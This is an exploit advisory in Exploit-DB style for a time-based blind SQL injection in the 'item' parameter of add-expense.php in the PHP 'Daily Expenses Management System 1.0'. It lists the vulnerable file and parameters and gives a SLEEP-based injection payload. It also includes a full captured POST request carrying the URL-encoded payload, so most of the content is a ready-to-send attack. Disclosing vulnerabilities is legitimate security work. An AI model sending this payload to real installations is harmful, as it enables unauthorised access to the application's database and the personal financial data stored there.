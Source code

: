 # Exploit Title: Daily Expenses Management System 1.0 - 'item' SQL Injection (Time-based blind)
- **Date:** 12-03-2024
- **Exploit Author:** Ayush Patidar
- **Vendor Homepage:** [https://phpgurukul.com/](https://phpgurukul.com/)
- **Software Link:** [https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/)
- **Version:** 1.0
- **Tested on:** Windows & Xampp

---

## Feature: Add Expenses
- **Vulnerable file:** add-expense.php
- **Vulnerable parameters:**
	- item
	- costitem

---

## PoC
- **URL:** [http://example.com/dets/add-expense.php](http://example.com/dets/add-expense.php)
- **Method:** POST

---

## Payload
```http
dateexpense=1337-11-11&item=1' AND (SELECT 8429 FROM (SELECT(SLEEP(5)))IWeV) AND 'hmPP'='hmPP&costitem=2&submit=
```
## Burpsuite Requests

```http
POST /dets/add-expense.php HTTP/1.1
Host: example.com
Content-Length: 139
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://example.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://example.com/dets/add-expense.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=ofjno6jio72kc9u6tnbvu1cit7
Connection: close

dateexpense=2024-03-12&item=1%27+AND+%28SELECT+8429+FROM+%28SELECT%28SLEEP%285%29%29%29IWeV%29+AND+%27hmPP%27%3D%27hmPP&costitem=10&submit=

```
